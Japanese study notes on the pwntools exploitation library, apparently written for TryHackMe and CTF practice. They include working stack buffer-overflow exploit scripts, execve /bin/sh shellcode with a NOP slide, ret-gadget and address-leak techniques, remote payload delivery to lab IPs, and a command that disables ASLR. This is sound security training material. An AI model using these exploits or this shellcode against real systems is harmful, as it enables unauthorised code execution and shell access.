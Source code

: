 # pwntools

https://github.com/Gallopsled/pwntools

https://tryhackme.com/room/introtopwntools

## インストール

kali の場合、pwn と打ってインストールされていなければインストールするか聞かれるので Yes と答えるだけ。

## コマンド

### checksec

```shell
# 実行ファイルで有効になっているセキュリティ機構を調べる
checksec --file <file>
```

### cyclic

```shell
cyclic 100 > pattern

cat pattern
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```shell
# バッファオーバーフローをテストする
gdb> r < pattern
```

eip が `jaaa` で上書きされていたとして、その部分を目的の関数アドレスにしたペイロードを作成したい場合。

```python
# gdb> disassemble <function> 等で関数アドレスを得る
from pwn import *

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x08048536)
payload = padding + eip
print(payload)
```

### shellcraft

64ビットの場合、amd64.linux.execve

```shell
# シェルコードのアセンブラ出力
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

# シェルコードのバイトコード出力
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
```

シェルコードを埋め込む例

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
# ブレークポイント命令（シェルコードを入れる前のテスト用）
# shellcode = "\xcc"
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode

proc.send(payload)

# シェルと通信するためインタラクティブが必要
proc.interactive()
```

（参考）ASLR（アドレス空間配置のランダム化）無効化

```shell
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

## ネットワーク経由

```python
from pwn import *

connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)

print(connect.recvn(34))
```

## バイナリ解析

```python
# ライブラリをロード
>>> from pwn import *

# バイナリをロード
>>> binary = context.binary = ELF("./elf_file")

# 関数のアドレス
>>> hex(binary.symbols['vuln'])

# retガジェット
>>> ret_gadget = ROP(binary).find_gadget(['ret'])[0]
```

## 例

### バッファオーバーフロー

```shell
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.37.23"
port = 5700
context(terminal = ['tmux', 'new-window'])

binary = context.binary = ELF("./DearQA-1627223337406.DearQA")
context(os = "linux", arch = "amd64")
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")
payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

上記の例で、binary と 2 か所の context は、コメントアウトしても機能する。

### retガジェット

64ビットOSで、RSPが16バイト境界にない場合、retガジェットが必要になる。

RSP  0x7fffffffdcf8　のように、末尾が0出ない場合ずれている。

```python
from pwn import *

# Set the binary context
elf = context.binary = ELF('./tryretme')  # Replace with the actual binary name

# Connect to the remote server
p = remote('10.10.23.250', 9006)

# Address of the win function
win_addr = elf.symbols['win']

# Address of a `ret` gadget (you can find this with tools like ROPgadget or Pwntools)
# This gadget is simply one instruction: `ret`, which fixes stack alignment.
ret_gadget = ROP(elf).find_gadget(['ret'])[0]

# Offset (determined from cyclic_find)
offset = 264

# Payload: buffer + ret gadget + return address (win function)
payload = b'A' * offset
payload += p64(ret_gadget)  # Add the ret gadget to fix alignment
payload += p64(win_addr)

# Send the payload
p.sendlineafter('Return to where? : ', payload)

# Interact with the shell
p.interactive()
```

### 受信したデータをペイロードに反映する

TryPwnMeOne CTF 参照。

```python
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.61.104"
port = 9007

vuln_addr = 0x1319
win_addr = 0x1210
ret_gadget = 0x101a

context(os = "linux", arch = "amd64")
connect = remote(host, port)

# vuln関数アドレスを表示する行を受信するまで待つ
while True:
    line = connect.recvline().decode()
    log.info(f"{line.strip()}")
    if "I can give you a secret" in line:
        break

# アドレス部分（16進数）を抽出
match = re.search(r"I can give you a secret ([0-9a-fA-F]+)", line)
if match:
    vuln_abs_addr = int(match.group(1), 16)
    log.info(f"[+] vuln address: {hex(vuln_abs_addr)}")
    offset = vuln_abs_addr - vuln_addr
else:
    log.error("vulnアドレスの抽出に失敗しました")
    sys.exit(1)

log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"Where are we going? : ")
log.info("[+] Crafting payload")
payload = b'A' * (256+8)

payload += p64(offset + ret_gadget) # retガジェット
payload += p64(offset + win_addr)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```
